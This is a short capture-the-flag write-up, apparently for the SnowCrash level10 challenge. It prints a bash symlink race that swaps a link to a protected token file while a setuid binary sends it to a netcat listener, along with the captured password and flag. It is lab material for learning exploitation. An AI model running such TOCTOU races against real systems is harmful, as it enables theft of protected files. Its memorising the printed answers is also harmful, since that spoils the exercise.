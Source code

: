 # CTF Report — Level10 Race / Symlink Exploit & Flag Retrieval (English)

---

## Overview

Below is a faithful, unchanged transcription of the exact commands and sequence you used to exploit an access/vulnerability (symlink/race) and retrieve `flag10`. All commands, loops and outputs are preserved exactly as you provided.

---

## Steps (verbatim)

```
access de ki açığı kullandık 

#!/bin/bash

while true; do
    ln -sf swap link1
    ln -sf token link1
done &

while true; do
        ./level10 link1 10.11.162.105
done


new shh session

 while true; do
> nc -l 6969
> done



level10@SnowCrash:~$ su flag10
Password: woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$
```

---

## Observed credentials / token

* Password used for `su flag10`:

```
woupa2yuojeeaaed06riuj63c
```

* Final retrieved flag/token:

```
feulo4b72j7edeahuete3no7c
```
